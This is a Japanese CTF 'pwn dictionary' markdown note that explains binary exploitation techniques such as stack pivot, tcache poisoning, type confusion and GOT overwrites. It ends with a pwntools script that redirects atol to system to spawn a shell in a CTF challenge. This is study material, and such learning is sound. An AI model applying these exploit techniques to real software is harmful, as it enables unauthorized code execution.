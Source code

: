 # pwn辞書
abcdefghijklmnopqrstuvwxyz

### double free
to be editing...  

### stack pivot
espまたはrspを任意の値に変更する（例えば攻撃者が入力可能なbuffのアドレス)ことで，pop,retなどのスタックを使う命令において，任意の値で操作することができる．  

### t-cache poisoning
詳細 => [t-cache poisoning: FireShell CTF 2019 babyheap](https://furutsuki.hatenablog.com/entry/2019/02/26/112207)  
heapにおいてt-cacheの指すアドレスを任意のアドレス値にすることで，次に同じ大きさのチャンクを要求したとき，t-cacheが優先されることで攻撃者が指定したアドレスが返り値として帰ってしまい，任意アドレスの内容を編集することができる攻撃手法．  
GOT overwriteと組み合わせて使用することが多い（と思ふ）．（t-cacheに変更したいGOTのアドレス，malloc後のデータ書き込み時にsystemやone_gadgetなどのshellを呼ぶ事のできるアドレスを指定．）

### type confusion
本来の変数の型と違う型で，その変数を操作することができる脆弱性．  
配列（char *）型と整数（int）型の間でtype confusionが存在すると，任意アドレスの値を出力，書き換えなどの攻撃が可能となってしまう．

## 名前はわからないが使えそうなテク集
### GOT下位2Byte書き換え
libcリークしなくてもlibcの任意の関数を書き込める可能性がある  

条件: 書き込み元のアドレスがlibcにあること，任意アドレスに書込み可能であること（2Byte）  
方法: GOTのlibc関数の下位2Byteを，libcのアドレスに書き換える  
例（BeginnersCTF.elemententary_stack):
```
"""
  1403: 000000000004f440    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
  1733: 00000000000406a0    12 FUNC    GLOBAL DEFAULT   13 atol@@GLIBC_2.2.5
"""
from pwn import *

elf = ELF("./chall")
libc = ELF("./libc.so.6")
p = process("./chall")

# GOT overwrite
# *buf = atol-8 (malloc)
p.sendlineafter("index: ", "-2" )
p.sendlineafter("value: ", str(elf.got["atol"] - 0x08) )

# write system function to atol( 2Byte )
# atol( value ) => system( value )
p.sendafter("index: ", "0" )  #avoid 64bit alignment
p.sendafter("value: ", b"/bin/sh\0" + p64(libc.symbols["system"])[:2] )

p.interactive()

```
